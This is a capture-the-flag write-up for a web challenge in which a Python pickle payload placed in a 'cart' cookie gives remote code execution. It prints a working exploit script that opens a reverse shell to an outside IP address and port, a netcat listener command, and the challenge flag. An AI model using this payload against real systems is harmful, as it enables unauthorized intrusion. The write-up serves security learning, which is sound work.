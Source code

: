 # CTF Write-Up: Pickle Me This Cookie Jar Shenanigans!

## Introduction

This write-up discusses the challenge: **Pickle Me This Cookie Jar Shenanigans!** from the **Hack Havoc 2.0** CTF.

## Required Information

- **CTF Name:** Hack Havoc 2.0
- **Challenge Name:** Pickle Me This Cookie Jar Shenanigans!
- **Challenge Category:** Web
- **Challenge Points:** 150

## Content
The Pickle Me This Cookie Jar Shenanigans! challenge involved using Python’s pickle module to craft a serialized payload for remote code execution. Here’s how I approached it:

### Step 1: Setup AWS Ubuntu Instance
I launched an Ubuntu instance on AWS and updated the security group’s inbound rules to allow traffic on all ports from any IPv4 address, ensuring it was fully accessible.

### Step 2: Create the Exploit Code
Using Python, I crafted an exploit with a reverse shell payload using the pickle module.

exploit.py
```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        # Python reverse shell payload
        cmd = ('python3 -c \'import socket,subprocess;'
               's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
               's.connect(("13.239.38.111",4242));'
               'subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\'')
        return subprocess.Popen, (['/bin/bash', '-c', cmd],)

if __name__ == '__main__':
    # Serialize the class instance to a pickle object
    pickled = pickle.dumps(RCE())

    # Encode the pickled object in base64 (for safe transfer in the cookie)
    payload = base64.urlsafe_b64encode(pickled).decode()
    print(f'Payload: {payload}')

```

### Step 3: Generate Payload, Update Cookies, and Start Listener
I ran **exploit.py** to generate a base64-encoded payload. I then copied this payload into the "**cart**" cookie on the challenge website. At the same time, I started a Netcat session on my AWS instance to listen for incoming connections with:


![](src/images/30.png)

### Step 4: Trigger the Exploit and Retrieve the Flag
After refreshing the page and navigating to */view*, the reverse shell was triggered. This gave me access to the server shell via the Netcat session, where I found the flag in flag.md.
```bash
nc -lvnp 4242
```

![](src/images/31.png)


## Flag: 
     CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
![CTF Writeup by KoushikReddyB](src/images/Credits.png)